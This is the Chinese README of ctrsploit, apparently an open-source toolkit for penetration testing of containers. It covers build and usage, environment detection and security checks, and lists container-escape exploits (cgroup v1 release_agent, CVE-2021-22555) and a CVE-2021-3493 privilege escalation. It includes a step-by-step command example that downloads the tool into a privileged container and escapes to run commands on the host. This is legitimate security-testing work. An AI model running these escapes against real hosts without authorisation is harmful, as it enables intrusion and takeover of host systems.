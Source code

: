 # ctrsploit: 一个容器场景自动化渗透测试工具

[English Version](./README.md)

ctrsploit 读作container sploit , 遵循 [sploit-spec](https://github.com/ctrsploit/sploit-spec) v0.4.3

## 为什么我们需要ctrsploit

[这里](https://github.com/ctrsploit/ctrsploit/discussions/11)有详细解释

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## 手动编译

### 容器编译

```bash
export APT_MIRROR=repo.huaweicloud.com
export GOPROXY=https://goproxy.cn,https://goproxy.io,direct
make binary && ls -lah bin/release
```

### 本地编译

```
make build-ctrsploit
```

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.5.12/ctrsploit_linux_amd64 && chmod +x ctrsploit
./ctrsploit --help
NAME:
   ctrsploit - A penetration toolkit for container environment

               ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a      auto gathering information, detect vulnerabilities and run exploits
   env, e       gather information
   exploit, x   run a exploit
   checksec, c  check security inside a container
   helper, he   some helper commands such as local privilege escalation
   version      Show the sploit version information
   help, h      Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --debug         Output information for helping debugging sploit (default: false)
   --experimental  enable experimental feature (default: false)
   --colorful      output colorfully (default: false)
   --json          output in json format (default: false)
   --help, -h      show help
```

### 信息收集

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   auto              auto
   where, w          detect whether you are in the container, and which type of the container
   graphdriver, g    detect graphdriver type and extend information
   cgroups, c        gather cgroup information
   capability, cap   show the capability of pid 1 and current process
   seccomp, s        show the seccomp info
   apparmor, a       show the apparmor info
   selinux, se       show the selinux info
   fdisk, f          like linux command fdisk or lsblk // TODO
   kernel, k         collect kernel environment information
   namespace, n, ns  check namespace is host ns
   help, h           Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help
```

查看当前是否在容器内，在何容器内：

```
root@ctr:/# ./ctrsploit  env  w

===========Container===========
[Y]  Is in Container

===========Docker===========
[Y]  .dockerenv exists
[N]  rootfs contains 'docker'   
[N]  cgroups contains 'docker'
[Y]  the mount source of /etc/hosts contains 'docker'   
[Y]  hostname match regex ^[0-9a-f]12$
---
[Y]  => Is in docker

===========k8s===========
[N]  /var/run/secrets/kubernetes.io exists
[N]  hostname match k8s pattern
[N]  the mount source of /etc/hosts contains 'pods'
[N]  contains 'kubepods'
---
[N]  => is in k8s 
```

### 漏洞利用

```
root@2aa13a052102:/# ./ctrsploit e
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

例如: 使用'cgroupv1-release_agent'技术逃逸:

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### 安全检查

在容器内执行`ctrsploit checksec`或执行单独的二进制文件`checksec`

```
./checksec_linux_amd64 auto
[N]  cap_sys_admin      # Container can be escaped when has cap_sys_admin and use cgroups v1
[N]  host_net_ns        # The network namespace of the host is shared
...
```

## 详细信息

### env

| 子命令                              | 简写    | 描述                         |
|----------------------------------|-------|----------------------------|
| [auto](./env/auto)               |       | 自动收集环境信息                   |
| [where](./env/where)             | w     | 检测你是否在容器内，在何种类型的容器内        |
| [graphdriver](./env/graphdriver) | g     | 检测graphdriver类型和扩展信息       |
| [cgroups](./env/cgroups)         | c     | 收集cgroup信息                 |
| [capability](./env/capability)   | cap   | 显示pid为1的进程和当前进程的capability |
| [seccomp](./env/seccomp)         | s     | 显示seccomp信息                |
| [apparmor](./env/apparmor)       | a     | 显示apparmor信息               |
| [namespace](./env/namespace)     | n, ns | check namespace is host ns |

### exploit

| exploit                                                                                  | 缩写    | 简述                                                     |
|------------------------------------------------------------------------------------------|-------|--------------------------------------------------------|
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent)                               | ra    | 利用cgroup v1的notify_on_release功能的逃逸技术                   |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3   | 在不知道rootfs在宿主机路径时，利用cgroup v1的notify_on_release功能的逃逸技术 |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04)                       | 22555 | 利用CVE-2021-22555的逃逸技术 (ubuntu18.04)                    |

### helper

| helper                                  | 缩写                       | description           |
|-----------------------------------------|--------------------------|-----------------------|
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS 本地提权 |

### checksec

在容器内执行`ctrsploit checksec`或执行单独的二进制文件`checksec`